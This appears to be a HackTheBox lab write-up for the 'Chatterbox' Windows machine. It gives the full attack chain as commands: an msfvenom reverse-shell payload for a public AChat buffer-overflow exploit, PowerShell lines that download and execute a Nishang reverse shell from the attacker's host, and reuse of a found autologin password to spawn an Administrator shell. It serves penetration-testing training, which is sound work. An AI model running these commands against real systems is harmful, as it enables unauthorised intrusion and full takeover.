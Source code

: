 ```yaml
---
layout: default
tags: windows active_directory
---
```

# HackTheBox - Chatterbox writeup 

![Chatterbox Header image](/assets/images/htb_chatterbox/chatterbox_header.png)

[HackTheBox](https://www.hackthebox.eu/)

## Introduction 

This box starts by first finding `Achat` program that is running on an obscure port number, we exploit this program by modifying a public buffer overflow exploit to allow us to gain an initial foothold on the system. With a bit of enumeration we then find **AutoLogin** credentials which we can then use to start another process to gain and Administrator shell.

## Initial recon

**Target IP: 10.10.10.74**

### Nmap scan

This machine is a little tricky as if you do a normal nmap scan of the top 1000 ports it will pick up nothing. Thus we need to run a scan of all TCP ports (-p-) this however will take a long time and thus we should limit it to just a plain TCP scan with no version and script scanning. We will add the -Pn flag to not do a ping scan, as well as the -n to not do a DNS resolution and -T5 to run the fastest scan as this machine takes a while.

```
sudo nmap -Pn -n -T5 10.10.10.74
```

After we discover two open ports we can run a more specific scan to discover what services are running on these ports

```
sudo nmap -p 9255,9256 -sV -sV -n -Pn 10.10.10.74 -oA tcp_ver_def_scan
```

I did not run a UDP scan as it was taking to long and the ports revealed during the TCP scan were enough to find an exploit to gain the initial foothold.

#### TCP Scan Results

```
# Nmap 7.80 scan initiated Sun Sep  6 08:16:23 2020 as: nmap -p 9255,9256 -sV -sV -n -Pn -oA tcp_ver_def_scan 10.10.10.74
Nmap scan report for 10.10.10.74
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
9256/tcp open  achat   AChat chat system

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  6 08:16:32 2020 -- 1 IP address (1 host up) scanned in 9.09 seconds
```

There are only two ports open on this system with a services called `AChat chat system`

## Enumeration

Searching [exploitdb.com] for `achat` we find an exploit called [Achat 0.150 beta7 - Remote Buffer Overflow](https://www.exploit-db.com/exploits/36025). If you read the exploit code the payload just opens up the **calc.exe** program which is not very useful. We will need to generate a new payload using msfvenom and replace it as well as adjust the `server_address` variable to have the correct IP address and port number of the target system. Also take note that we only have 1152 bytes to work with for our payload.

Download the exploit.
```
wget https://www.exploit-db.com/download/36025 -O achat_exploit.py
```

Lets generate a simple staged Windows TCP reverse shell using msfvenom with the command below.

```
 msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.14 LPORT=9001 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

![Shellcode](/assets/images/htb_chatterbox/chatterbox_shell_code.jpg)

Replace the **buf** code within the exploit script with the generated output from the above command.

Run msfconsole and setup the exploit multi handler to catch the reverse shell to send over the remaining payload.
```
sudo msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.10.10.14
set LPORT 9001
exploit
```

Run the python buffer overflow exploit and get your reverse shell.

![Reverse Shell](/assets/images/htb_chatterbox/chatterbox_reverse_shell.jpg)

## Privilege Escalation

The shell we obtained above is for the user `alfred`, lets see if we can get an Administrator shell.

First lets start up a simple python HTTP server to serve our [Windows Privilege Escalation Awesome Suite Script (WinPEAS)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases)
```
sudo python3 -m http.server 80
```

Now lets download the WinPEAS script to the victim machine and then execute it.
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.14/winPEASany.exe', 'C:\Users\Alfred\winPEASany.exe')
.\winPEASany.exe
```

The WinPEAS script finds some AutoLogin credentials on the system.

![WinPEAS](/assets/images/htb_chatterbox/chatterbox_winpeas_autologin.jpg)

Lets try to use these credentials to get a reverse shell as the administrator.

First we are going to need a powershell shell to do this, so lets use Nishang `Invoke-PowerShellTcp.ps1` script.

You can find download the script from here: [Nishang Shells Github Repo](https://github.com/samratashok/nishang/tree/master/Shells)

Edit the script and add the following line to the bottom of the file to execute the reverse shell automatically
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 1337
```

Open up a netcat listener on port 1337
```
sudo nc -nvlp 1337
```

Then execute the following code on the target system.
```
powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/shell.ps1')" 
```

### Run commands as Administrator

In order to run a command as an administrator we are going to need to execute the following commands to create a powershell credentials object which we will then  use to start a process running a new reverse shell as the Administrator user.
```powershell
$passvar = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $passvar)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.14/shell2.ps1')" -Credential $cred
```

We have obtained a shell now as the administrator user and we can read the root.txt file.

![Root shell](/assets/images/htb_chatterbox/chatterbox_root_shell.jpg)

## Summary

This box was pretty easy, it involved editing the buffer overflow exploit and then enumerating the machine to find the autologin credentials which we then used to get a reverse shell as the Administrator. The most important thing with this box is the ability to execute commands/start processes as a different user on the system via the powershell commands.

## Notes

We could have just started by using a meterpreter shell in the buffer overflow exploit and then load the powershell module into metasploit. Alternatively we could have just replaced the command in the original msfvenom generation command to download and execute the Nishang powershell TCP reverse shell using the command below.

Take note of the escaped strings in the powershell command.

```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/test.ipp')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

## References